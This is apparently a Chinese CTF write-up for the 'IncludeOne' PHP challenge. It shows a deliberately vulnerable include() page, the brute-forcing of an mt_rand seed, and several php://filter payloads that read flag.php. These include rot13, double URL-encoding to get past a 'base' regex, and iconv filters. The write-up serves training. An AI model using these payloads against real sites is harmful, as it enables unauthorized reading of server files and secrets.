 

![img](https://peekaboo.show/content/images/2022/11/31c229d21ffafacd58828cc154334559.jpg)



# Week2 IncludeOne 200



#### 0、使用到的知识点



>   php中mt_srand()、mt_rand() 方法设置随机数种子和生产随机数

>   php_mt_seed 工具爆破随机数种子

>   php://filter 伪协议读取文件

>   php://filter 伪协议rot13编码、url双层编码绕过读取文件

#### 1、页面代码

‌

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include("seed.php");
//mt_srand(*********);
echo "Hint: ".mt_rand()."<br>";
if(isset($_POST['guess']) && md5($_POST['guess']) === md5(mt_rand())){
    if(!preg_match("/base|\.\./i",$_GET['file']) && preg_match("/NewStar/i",$_GET['file']) && isset($_GET['file'])){
        //flag in `flag.php`
        include($_GET['file']);
    }else{
        echo "Baby Hacker?";
    }
}else{
    echo "No Hacker!";
} Hint: 1219893521
No Hacker!
```

php

-   
-   
-   

‌

#### 2、首先根据hint的提示爆破一下随机数种子

>   使用php_mt_seed工具，linux中进入php_mt_seed工具所在目录执行以下命令，获得种子为：1145146

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221115221734.png)

-   
-   
-   

‌

#### 3、使用php的函数获得下一个随机数

>   mt_srand(1145146)：设置随机数种子‌
>   ‌mt_rand()：获得第一个随机数，需要的是第二个随机数

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221115222641.png)

-   
-   
-   

‌

>   由上面的结果可以看出，第一个随机数就是题目所给提示的数字，然后第二个随机数就是我们所需要的数字

#### 4、分析一下代码

‌

```
<?php
highlight_file(__FILE__);
error_reporting(0);
include("seed.php");
//mt_srand(*********);

// 输出第一个随机数
echo "Hint: ".mt_rand()."<br>";

// post请求传入一个guess参数，不能为空并且md5加密要等于下一个随机数
if(isset($_POST['guess']) && md5($_POST['guess']) === md5(mt_rand())){

	// 参数值中不能有base，必须有NewStar
    if(!preg_match("/base|\.\./i",$_GET['file']) && preg_match("/NewStar/i",$_GET['file']) && isset($_GET['file'])){
    
        //flag in `flag.php`
        include($_GET['file']);
    }else{
        echo "Baby Hacker?";
    }
}else{
    echo "No Hacker!";
} Hint: 1219893521
No Hacker!
```

-   
-   
-   

‌

>   看到include可以联想到使用伪协议，然后需要的是读取文件，可以使用：filter协议读取，因为过滤base所以不能使用base64编码读取文件，可以使用rot13编码读取，

>   那么file的参数值为：file=php://filter/read=string.rot13/newstar/resource=flag.php‌
>   ‌因为必须包含NewStar，所以最终结果为：‌
>   ‌file=php://filter/NewStar/read=string.rot13/newstar/resource=flag.php

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/hfdhsdhh.png)

-   
-   
-   

‌

>   查看源代码可以发现一行以rot13编码的flag，将其解码就可有得到flag

#### 5、获得flag

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221115230438.png)



‌

#### 6、强行使用base64读取文件

>   因为正则过滤了base这四个字母，但是filter协议自带一层url解码，所以双层url编码可以绕这里的过滤‌
>   ‌ 例如：s的url编码为%73，然后在单独对：%、7、3进行一次url编码得到%25%37%33，从而绕过正则过滤

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221115231515.png)



‌

>   这样就得到了一串以base64加密的flag，然后网上使用base64解码一下

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221115231706.png)



‌

#### 7、iconv编码方式绕过

UCS-2：对目标字符串进行2位一反转‌
‌UCS-4：对目标字符串进行4位一反转

‌

```
file=php://filter/NewStar/read=convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
```



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221116155851.png)

-   
-   
-   

‌

‌

```
php://filter/NewStar/read=convert.iconv.UCS-4LE.UCS-4BE/resource=flag.php
```





![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221116161059.png)



‌

‌

```
file=php://filter/NewStar/read=convert.iconv.ASCII.UCS-2BE/resource=flag.php
```



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221116160008.png)



‌

‌

```
file=php://filter/NewStar/convert.iconv.utf-8.utf-7/resource=flag.php
```



‌

‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/20221116160056.png)



>   最后下班！



